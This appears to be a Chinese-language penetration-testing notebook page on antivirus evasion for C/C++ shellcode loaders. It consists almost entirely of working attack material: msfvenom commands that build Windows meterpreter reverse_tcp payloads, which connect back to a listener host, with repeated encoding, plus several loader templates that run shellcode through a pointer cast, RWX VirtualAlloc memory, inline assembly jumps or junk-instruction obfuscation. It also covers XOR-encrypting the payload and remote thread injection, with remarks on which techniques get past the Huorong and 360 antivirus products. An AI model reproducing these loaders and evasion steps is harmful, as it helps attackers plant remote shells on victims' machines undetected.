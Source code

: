 #### c/c++源码免杀
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f c -o 1.c
	-i编码20次
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
#### 指针执行
	unsigned char buf[] =
	"shellcode";
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	main()
	{
		( (void(*)(void))&buf)();
	}
	使用vc6.0组建编译后在靶机执行
![image](/assets/Pentest_Note/master/img/50.png)

	当前过不了火绒，360动态静态可过
#### 申请动态内存
	#include <Windows.h>
	#include <stdio.h>
	#include <string.h>
	#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口
	unsigned char buf[] =
	"shellcode";
	main()
	{
		char *Memory;
		Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		memcpy(Memory, buf, sizeof(buf));
		((void(*)())Memory)();
	}
#### 嵌入汇编
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
		__asm
		{
			mov eax, offset shellcode
			jmp eax
		}
	}
#### 强制类型转换
	#include <windows.h>
	#include <stdio.h>
	unsigned char buf[] ="";
	void main()
	{
	 ((void(WINAPI*)(void))&buf)();
	}
#### 汇编花指令
	#include <windows.h>
	#include <stdio.h>
	#pragma comment(linker, "/section:.data,RWE")
	unsigned char shellcode[] ="";
	void main()
	{
			__asm
		{
			mov eax, offset shellcode
			_emit 0xFF  
			_emit 0xE0
		}
	}
#### XOR加密
	https://github.com/Arno0x/ShellcodeWrapper安装
	生成raw格式木马
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f raw -o shell.raw
![image](/assets/Pentest_Note/master/img/51.png)

	加密
	> python shellcode_encoder.py -cpp -cs -py shell.raw thisiskey xor
	生成的py文件使用py2exe编译执行
	生成的cs文件使用csc.exe编译执行
	生成的cpp文件使用vc6.0编译，去掉预编译头编译执行
![image](/assets/Pentest_Note/master/img/52.png)

#### 远程线程注入
	目前过火绒，不过360，可组合一下
	Vs新建c++控制台程序
	右键属性-》将MFC的使用选为在静态库中使用MFC
	生成c格式shellcode粘贴进remote inject.cpp
![image](/assets/Pentest_Note/master/img/53.png)

	生成项目
	能成功上线，并开启calc进程
![image](/assets/Pentest_Note/master/img/54.png)
![image](/assets/Pentest_Note/master/img/55.png)